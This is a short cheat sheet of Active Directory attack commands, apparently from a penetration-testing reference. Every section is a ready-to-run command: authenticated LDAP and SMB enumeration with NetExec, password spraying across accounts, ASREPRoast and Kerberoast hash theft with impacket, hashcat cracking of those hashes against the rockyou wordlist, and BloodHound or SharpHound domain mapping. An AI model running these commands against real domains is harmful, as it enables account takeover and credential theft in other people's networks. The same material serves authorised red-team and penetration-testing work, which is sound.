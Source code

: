 ## Enumerate with authenticated NetExec LDAP
```bash
# Add --password-policy, --users, --groups, --computers as needed
netexec ldap $IP -u username -p password --users --groups --computers
```

## Enumerate SMB shares with credentials
```bash
# netexec (faster) OR smbclient -L for interactive
netexec smb $IP -u username -p password --shares
```

## Password spraying with NetExec
```bash
# -p 'Password123!' for single password OR -p passwords.txt for file
# Change protocol: smb, ldap, OR winrm
netexec smb $IP -u users.txt -p passwords.txt --continue-on-success
```

## ASREPRoast attack without credentials
```bash
# Add -format hashcat for hashcat-compatible output
impacket-GetNPUsers domain.local/ -dc-ip $IP -no-pass -usersfile users.txt
```

## Hashcat ASREPRoast
```bash
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

## Kerberoast attack with credentials
```bash
# impacket: add -outputfile kerb_hashes.txt OR netexec for automation
impacket-GetUserSPNs domain.local/username:password -dc-ip $IP -request
```

## Crack Kerberoast hashes with hashcat
```bash
hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt
```

## Collect BloodHound data with Netexec
```bash
# $IP must be a domain controller
nxc ldap $IP -u $USER -p $PASS --bloodhound --collection All
```

## Run SharpHound on Windows target
```cmd
# Add -d domain.local OR --zipfilename output.zip as needed
.\SharpHound.exe -c All
```
